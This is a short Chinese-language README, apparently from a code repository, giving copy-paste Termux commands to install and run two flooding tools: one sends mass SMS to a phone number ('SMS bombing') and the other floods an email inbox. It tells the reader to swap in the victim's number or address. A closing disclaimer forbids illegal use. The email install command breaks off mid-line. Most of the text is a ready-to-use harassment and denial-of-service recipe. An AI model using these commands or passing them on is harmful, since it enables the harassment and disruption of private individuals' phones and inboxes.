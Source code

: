   ## 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现
>Do you want to continue? [Y/n]
>
- 直接回车enter即可
- 
  ## 一键代码使用
  ### 短信轰炸
  `pkg install git && pkg install python && pkg install openssl &&  git clone https://github.com/AdminWhaleFall/SMSBoom.git/ && cd SMSBoom && pip install -r requirements.txt && python smsboom.py`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ### 邮箱轰炸
 `pkg install git && pkg install php && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber && `
 

 
更新接口（可选）
`php index.php update-nodes`

后续使用
`cd mail-bomber;php index.php start-bombing 邮箱`
将要轰炸的邮箱替换


## 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令造成的事故与损失，与作者无关


